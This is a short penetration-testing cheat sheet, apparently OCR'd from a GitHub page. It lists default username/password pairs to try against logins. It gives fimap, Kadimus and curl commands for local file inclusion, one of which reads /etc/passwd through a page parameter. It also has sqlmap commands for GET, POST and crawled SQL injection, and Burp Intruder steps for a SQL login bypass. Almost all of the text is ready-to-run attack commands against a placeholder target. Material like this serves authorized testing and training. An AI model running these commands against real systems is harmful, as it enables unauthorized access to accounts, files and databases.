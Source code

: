 Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```


#### LFI/RFI




```
fimap -u "http://INSERT_IP_ADDRESS/example.php?test="

# Ordered output
curl -s http://INSERT_IP_ADDRESS/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://INSERT_IP_ADDRESS/example.php?page=
```

#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERT_IP_ADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERT_IP_ADDRESS --dbms=mysql --crawl=3
```

#### Sql-login-bypass

- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation
